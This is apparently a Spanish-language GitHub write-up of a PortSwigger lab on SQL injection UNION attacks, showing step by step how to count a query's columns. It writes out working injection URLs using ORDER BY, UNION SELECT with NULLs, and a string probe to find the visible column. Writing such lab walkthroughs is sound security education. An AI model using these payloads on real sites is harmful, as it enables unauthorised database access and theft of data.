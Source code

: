 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)

Esto se vería algo así:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0af7cb7d-db50-4ae9-8462-f7cb35c71ac2)

OJO! port swigger no acepta numeros por eso marca error:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/bb3ee3ea-2a12-4443-ae86-867df5e71359)

PAra hacerlo funcionar se necesita poner NULL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/419b752f-d2a3-4e30-9772-cb9c1bfd548a)

Aunque en este caso no se ven los números en la pantalla, en realidad si pasa el laboratorio, esto debido al `NULL` y podemos saber que tenemos 3 columnas (eso pedía el lab después de todo)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/1c622ff2-4f1a-4e56-b3ff-42ab65c4887e)

Super ojito! También se pueden ingresar comandos ALV

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/d4b6d7e9-95c3-4132-bb31-5a806ce9f877)

A eso se le llama SQLi RC

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/64a6367d-2cf8-4a45-9a75-eae6cf429776)

## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

Utilizo NULL en lugar de números

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,NULL,NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/600fb155-e0c3-437c-96f9-e04ba315f31f)

Para Fuzzear lso numeros se debe poner algún string o algo entre cada NULL, en este caso el segundo NULL es el vulnerable

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,'Fz3r0',NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/db8636b9-9c7d-4710-beeb-fd430198cf84)

Ahora si puedo inyectar querys visibles en ese campo







